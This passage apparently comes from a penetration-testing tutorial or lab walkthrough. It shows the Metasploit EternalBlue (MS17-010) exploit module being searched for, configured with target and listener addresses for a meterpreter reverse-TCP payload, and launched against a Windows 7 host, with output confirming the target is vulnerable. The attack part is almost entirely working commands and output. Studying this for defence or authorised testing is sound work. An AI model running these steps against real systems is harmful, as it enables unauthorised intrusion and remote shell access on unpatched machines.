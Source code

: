```bash
# Search for the exploit
msf6 > search eternalblue

# Use the exploit module
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# View required options
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

**Options output:**
```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.50     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

```bash
# Set the target IP
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100

# Set your IP (for the reverse connection)
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.50
LHOST => 192.168.1.50

# Run the exploit
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

**Successful exploitation output:**
```
[*] Started reverse TCP handler on 192.168.1.50:4444 
[*] 192.168.1.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.100:445 - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.100:445 - The target is vulnerable.
[*] 192.168.1.100:445 - Connecting to target for exploitation.
[+] 192.168.1.100:445 - Connection established for exploitation.
[+] 192.168.1.100:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.100:445 - CORE raw buffer dump (42 bytes)
[*] 192.168.1.100:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 192.168.1.100:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
```